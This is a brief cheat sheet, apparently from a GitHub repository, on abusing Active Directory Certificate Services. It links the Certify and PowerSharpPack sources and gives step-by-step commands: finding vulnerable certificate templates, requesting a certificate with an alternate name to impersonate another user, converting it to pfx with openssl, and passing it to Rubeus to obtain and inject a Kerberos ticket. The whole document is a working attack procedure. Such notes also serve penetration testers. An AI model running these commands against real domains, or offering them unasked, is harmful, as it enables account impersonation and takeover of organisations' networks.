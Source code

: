 ### Source
https://github.com/GhostPack/Certify  
https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Certify.ps1  

### Get information about certificate environment and find vulnerable certificates (enrollment rights)
```
Certify.exe find /vulnerable
Invoke-Certify find /vulnerable
```

### Request certificate (altUser is the user to impersonate) - use /machine to switch into the current machine context
```
Certify.exe request /ca:"<fqdnCertificateServer>" /template:"<templateName>" /altname:"<altUser>"
```

### Convert pem file to pfx file using linux
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out <file>.pfx
```

### Impersonate user
```
Rubeus.exe asktgt /user:<altUser> /certificate:<file>.pfx /ptt
```

